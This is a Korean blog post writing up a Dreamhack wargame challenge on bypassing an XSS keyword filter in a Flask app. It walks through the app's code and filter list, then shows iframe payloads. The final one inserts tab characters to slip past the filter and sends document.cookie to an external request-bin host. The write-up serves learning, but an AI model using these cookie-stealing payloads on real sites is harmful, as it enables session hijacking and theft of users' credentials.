 ```yaml
---
layout : single
title : "STAGE2. XSS Filtering Bypass 혼자실습"
categories: Security
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```


- [x] xss filtering bypass advanced

# Web Hacking [혼자실습] xss filtering bypass advanced

## 웹 구조

1. /flag 에서 공격 스크립트 입력
2. check_xss 함수에서 url 생성 (memo 페이지는 render_template을 사용하기에, vuln으로 접근하도록)
3. read_url 함수에서 url 전달여부 판단
4. /vuln 접근 시 실행되는 vuln 함수에서 xss_filter 진행

### flag

GET 메소드 시, 스크립트를 입력할 수 있는 flag.html로 연결

POST 메소드 시, 입력된 값을 파라미터로 하여, check_xss 함수로 전달 (cookie에 flag 정보가 들어감)

```python
@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'
```

### check_xss 함수

vuln으로 가는 url을 생성하여 read_url 함수로 전달

\* urllib 라이브러리 [추가 정보](https://blog.naver.com/shwotjd14/221676402782)

|종류|설명|
|:---|:---|
|urllib.request|url을 열거나, 요청 전달|
|urllib.error| urllib.request 모듈에서 발생하는 예외 클래스 포함|
|urllib.parse|url 문자열의 구문 분석과 관련된 작업 수행|
|urllib.robotparser|robot.txt 파일을 구문 분석|

urllib.parse.quote() : 아스키코드 형식이 아닌 글자를 URL 인코딩한다

아래 코드에서는, string으로 전달된 param 변수를 urllib.parse.quote() 을 통해 URL 인코딩하여 기존 주소에 붙여 전달한다.

```python
def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)
```

### xss_filter 함수

해당 함수의 반복문을 보면, 필터링 문자열이 제거될 때까지 검사를 진행하지는 않으나, 필터링 문자열이 존재할 경우 "filtered!!!" 를 반환한다. 따라서, 앞선 함께실습에서 진행한 locatioonn 같은, 키워드 안에 키워드를 삽입하는 우회방법은 사용할 수 없다. 


```python
def xss_filter(text):
    _filter = ["script", "on", "javascript"]
    for f in _filter:
        if f in text.lower():
            return "filtered!!!"

    advanced_filter = ["window", "self", "this", "document", "location", "(", ")", "&#"]
    for f in advanced_filter:
        if f in text.lower():
            return "filtered!!!"

    return text
```

**필터링 되는 문자**

|n차 필터링|해당 문자열|
|:---|:---|
|1차|script, on, javascript|
|2차|window, self, this, document, location, (, ), &#|

기본적으로 전달해야하는 스크립트 내용

```javascript
<script>document.location.href = "/memo?memo=" + document.cookie;</script>
```

## 익스플로잇

- 부모의 cookie를 탈취해야함

- 태그는 % 를 사용해 인코딩할 시 태그의 기능을 잃음

- img, iframe 과 같이 js를 실행 가능한 다른 태그를 사용해야함. script 태그 사용 불가


다음과 같이 작성해보았으나 작동 X : data:// url은 origin이 null이므로 sop에 의해 상위 프레임 탐색이 차단되어, 쿠키 탈취가 되지 않음

```html
<iframe srcdoc="data:base64;,PHNjcmlwdD5kb2N1bWVudC5sb2NhdGlvbi5ocmVmID0gIi9tZW1vP21lbW89IiArIGRvY3VtZW50LmNvb2tpZTs8L3NjcmlwdD4="></iframe>
```

check_xss로 전달 -> url 형태로 인코딩하여 read_url 전달 -> 필터링 진행(소문자로 바꾸어서)

아래 코드를 전달해야하는데 어떻게 필터링을 해야할까

```html
<iframe src="javascript:location.href='https://pgzkthr.request.dreamhack.games/memo?memo='+document.cookie">
```

인코딩을 진행하면 아래와 같이 나옴 -> 일단 javascript, location, document에 대한 필터링 필요

```
%3ciframe+src%3d%22javascript%3alocation.href%3d%27https%3a%2f%2fpgzkthr.request.dreamhack.games%2fmemo%3fmemo%3d%27%2bdocument.cookie%22%3e
```


인코딩 했을 때 값이 나와야하므로 아래 코드를 디코딩하여 전달

```html
<iframe src="javascrip%09t:locatio%09n.href=%27https://pgzkthr.request.dreamhack.games/memo?memo=%27%2bdocumen%09t.cookie">
```

<img src="/images/wargame/24.png">

## 문제

과정에 상세히 기재되지는 않았지만 정말 모든 필터링을 다 시도해봤는데 인코딩되었을 때 필터링 형태가 반환되어야한다는 것을 생각하지 못함. 내가 넣은 아스키, 또는 유니코드 필터링들을 미리 디코딩해서 넣고, 인코딩 시 해당 형태가 반환되도록 하여 그 후 디코딩에서 해석되도록 만들었어야 했다. 이 방법을 미리 생각했다면 기존에 시도했던 많은 형태들도 작동됐을 것 같다는 생각이 들어 아쉬움이 남는다. 해당 문자들을 디코딩하여 넣어보긴 했으나, 디코더를 사용한 것이 아니라 수기로 디코딩을 진행했었는데 무언가 빠졌다거나 하는 문제가 발생했던 것 같다

**결론 : 진작에 디코더 쓸 걸**
